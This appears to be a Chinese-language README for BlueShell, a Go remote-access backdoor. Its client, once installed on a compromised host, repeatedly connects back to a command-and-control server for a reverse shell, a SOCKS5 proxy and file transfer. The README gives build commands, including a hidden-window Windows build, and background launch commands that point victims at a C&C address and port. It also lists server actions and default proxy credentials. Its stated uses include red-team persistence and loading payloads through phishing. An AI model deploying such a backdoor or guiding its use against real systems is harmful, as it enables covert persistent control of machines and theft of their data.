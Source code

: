 BlueShell
===
BlueShell是一个Go语言编写的持续远控工具，拿下靶机后，根据操作系统版本下载部署对应的bsClient，其会每隔固定时间向指定的C&C地址发起反弹连接尝试，在C&C端运行bsServer即可连接bsClient，从而实现对靶机的持续控制，主要适用场景：
+ 红蓝对抗中的持久化后门或内网代理
+ 社工钓鱼二次加载Payload

目前支持的主要功能有：
+ 循环持续控制
+ 跨平台，支持Linux、Windows、MacOS
+ 交互式Shell反弹,Linux支持Tab补全、VIM、Ctrl+C等交互式操作，Windows只支持普通反弹Shell
+ Socks5代理反弹
+ 文件上传、下载
+ TLS通信加密

项目地址:https://github.com/whitehatnote/BlueShell

编译可执行文件
---

### Linux and MacOS
生成bsClient
```shell
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w " -o bsClient client.go
```
生成bsServer
```shell
go get github.com/creack/pty
go get github.com/hashicorp/yamux
go get github.com/djimenez/iconv-go
go get golang.org/x/crypto/ssh/terminal

go build --ldflags "-s -w " -o bsServer server.go
```
### Windows
生成bsClient
```shell
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w -H=windowsgui" -o bsClient.exe client.go
```

工具使用方法
---
### Client
在受控靶机上运行bsClient    
#### Windows靶机：    
默认配置模式启动
```shell
start /b bsClient.exe
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口,-t指定尝试连接远控的间隔秒数
```shell
start /b bsClient.exe -h 10.0.0.1 -p 443 -t 10
```
#### Linux and MacOS靶机:    
默认配置模式启动
```shell
nohup bsClient &
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口
```shell
nohup bsClient -h 10.0.0.1 -p 443 &
```
### C&C Server
远控端运行bsServer,需要是Linux机器,并且key目录与bsServer在相同根目录下,启动成功如下效果：
```
[root@host BluesShell]# ls -al
总用量 4148
drwxr-xr-x   3 root root    4096 6月  17 22:14 .
drwxrwxrwt. 10 root root   40960 6月  17 22:13 ..
-rwxr-xr-x   1 root root 4193320 6月  17 22:13 bsServer
drwxr-xr-x   2 root root    4096 6月  17 22:13 key
[root@host BluesShell]# ./bsServer
waiting for client connect...
```
#### Action:反弹shell
默认启动，远控监听8081端口，执行反弹shell操作
```shell
./bsServer
```
参数启动，-p指定远控监听443端口，-a指定执行反弹shell操作
```shell
./bsServer -p 443 -a shell
```
windows靶机的乱码问题解决,-rencode指定靶机的编码类型
```shell
./bsServer -rencode gb2312
```
#### Action:反弹Socks5代理
默认启动，远控监听8081端口，执行反弹socks操作，socks5的默认监听端口为7777，默认用户名blue，默认密码Blue@2020
```shell
./bsServer -a socks
```
参数启动，-p指定远控监听443端口，-a指定执行反弹socks操作,-sport指定socks监听的端口为7778，-suser指定socks代理的认证账号，-spass指定socks代理的认证密码
```shell
./bsServer -p 443 -a socks -sport 7778 -suser socksUser -spass socksPassword
```
#### Action:文件上传下载
上传本地文件到受控靶机，-lpath指定需要上传的本地文件路径，-rdir指定上传到的目录
```shell
./bsServer -a upload -lpath /tmp/tmp.txt -rdir c:\\
```
从受控靶机下载文件到本地，-rpath指定需要下载的文件地址，-ldir指定存放下载文件的本地路径
```shell
./bsServer -a download -rpath c:\\tmp.txt -ldir /tmp
```

0x4. 参考
---
+ https://github.com/sysdream/hershell
+ https://github.com/creaktive/tsh
